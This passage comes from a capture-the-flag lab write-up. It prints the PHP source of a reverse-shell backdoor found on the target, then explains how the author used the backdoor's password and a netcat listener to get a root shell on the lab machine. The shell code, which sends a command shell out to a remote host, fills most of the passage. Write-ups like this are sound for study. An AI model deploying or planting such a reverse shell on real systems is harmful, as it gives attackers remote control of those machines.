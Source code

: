 ```php

$write_a = null;
$error_a = null;

$suid_bd = "/lib/defended/libc.so.99";
$shell = "uname -a; w; $suid_bd";

chdir("/"); umask(0);
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if(!$sock) die("couldn't open socket");

$fdspec = array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w"));
$proc = proc_open($shell, $fdspec, $pipes);

if(!is_resource($proc)) die();

for($x=0;$x<=2;$x++) stream_set_blocking($pipes[x], 0);
stream_set_blocking($sock, 0);

while(1)
{
    if(feof($sock) || feof($pipes[1])) break;
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
    if(in_array($sock, $read_a)) { $i = fread($sock, 1400); fwrite($pipes[0], $i); }
    if(in_array($pipes[1], $read_a)) { $i = fread($pipes[1], 1400); fwrite($sock, $i); }
    if(in_array($pipes[2], $read_a)) { $i = fread($pipes[2], 1400); fwrite($sock, $i); }
}

fclose($sock);
for($x=0;$x<=2;$x++) fclose($pipes[x]);
proc_close($proc);
?>
```

Inside of the file we can see some very interesting details of what seems to be a root backdoor

Let's visit this file with our browser by going to: `http://10.10.181.184/0aB44fdS3eDnLkpsz3deGv8TttR4sc/VIGQFQFMYOST.php`

<p align="center"><img src="https://github.com/MaxwellCaron/writeups/assets/69171981/9d7080aa-f968-4ce6-b6dd-7f41938254a6" width="750" /></p>

From the source code we know the password is: `a7c5ffcf139742f52a5267c4a0674129`

<p align="center"><img src="https://github.com/MaxwellCaron/writeups/assets/69171981/a9a910e0-5bc4-4d19-b812-93ce4432801d" width="750" /></p>

We are greeted with a simple page with instructions on how to connect to the backdoor

We will be using the "Remote" option

By setting up a new `netcat` listener and replacing the ip and port placeholders in the url and navigating to it, we are now `root`
